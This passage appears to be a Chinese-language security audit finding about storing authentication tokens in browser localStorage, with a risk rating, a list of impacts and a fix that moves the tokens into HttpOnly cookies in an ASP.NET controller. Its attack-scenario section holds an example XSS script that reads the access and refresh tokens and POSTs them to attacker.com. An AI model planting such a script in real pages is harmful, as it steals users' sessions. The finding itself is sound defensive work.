 ### 风险等级
**🟡 中危** - CVSS 5.4 (Medium)

### 安全影响
1. **XSS攻击**: JavaScript可以读取localStorage
2. **Token窃取**: 恶意脚本可以窃取token
3. **会话劫持**: 攻击者可以使用窃取的token
4. **持久化攻击**: 即使刷新页面攻击依然有效

### 攻击场景
```html
<!-- XSS攻击代码 -->
<script>
// 窃取token发送到攻击者服务器
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        token: localStorage.getItem('access_token'),
        refresh: localStorage.getItem('refresh_token')
    })
});
</script>
```

### 修复建议
```typescript
// ✅ 使用HttpOnly Cookie (后端设置)
// Platform.ApiService/Controllers/AuthController.cs
[HttpPost("login/account")]
public async Task<IActionResult> Login([FromBody] LoginRequest request)
{
    var result = await _authService.LoginAsync(request);
    
    if (result.Success && result.Data != null)
    {
        // ✅ 使用HttpOnly Cookie存储token
        Response.Cookies.Append("access_token", result.Data.Token!, 
            new CookieOptions
            {
                HttpOnly = true,  // ✅ JavaScript无法访问
                Secure = true,    // ✅ 只通过HTTPS传输
                SameSite = SameSiteMode.Strict,  // ✅ CSRF保护
                MaxAge = TimeSpan.FromMinutes(15)
            });
        
        Response.Cookies.Append("refresh_token", result.Data.RefreshToken!,
            new CookieOptions
            {
                HttpOnly = true,
                Secure = true,
                SameSite = SameSiteMode.Strict,
                MaxAge = TimeSpan.FromDays(1)
            });
    }
    
    return Ok(result);
}
```

---